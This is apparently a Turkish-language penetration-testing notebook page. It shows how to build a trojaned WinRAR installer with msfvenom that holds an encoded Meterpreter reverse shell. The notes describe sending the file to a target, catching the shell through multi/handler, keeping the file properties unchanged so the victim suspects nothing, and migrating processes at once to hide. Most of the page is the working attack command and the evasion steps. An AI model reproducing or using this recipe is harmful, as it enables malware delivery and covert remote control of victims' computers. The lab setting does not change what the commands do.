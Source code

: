```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x winrar-x32-624.exe > winrar.exe

```
### msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x winrar-x32-624.exe > winrar.exe
![[Pasted image 20240227215058.png]]
### KArşıya yine winrar.exe'yi gonderdik.
### winrar'a tıkladığında multi/handler ile dinleme yaptığımız için shell alabildik.
![[Pasted image 20240227215746.png]]
![[Pasted image 20240227215652.png]]

---
### Meterpreter shell aldık eğer tıkladığı exe'yi hedef incelemeye kalksa da exe'nin özellikleri aynı kalıyor <span style="background:#ff4d4f">FILE DESCRIPTION'LAR AYNI KALIYOR:</span> görselde ama winrar setup çalışmaz tıkladığında sadece bize meterpreter shell verir.
![[Pasted image 20240227220041.png]]
## -k option kullanılmadığı için winrar setup çalışmayacaktır. hedef neden setup çalışmadı diye şüphelenip bizim reverse shell bağlantımızı kesebilir.

---
---

## Biz hedef sisteme ilk erişir erişmez hemen yapmamız gereken ilk iş #migrate komutunu çalıştırmaktır. Karşı taraf anlamadan çalışan bir exe.nin arkasına saklanmamız çok önemli.

### ![[Pasted image 20240227220607.png]]
### run post/windows/manage/migrate

### ps     komutunu çalıştırıp bizim bildiğimiz method ile de yapabiliriz.

![[Pasted image 20240227220758.png]]

---
---
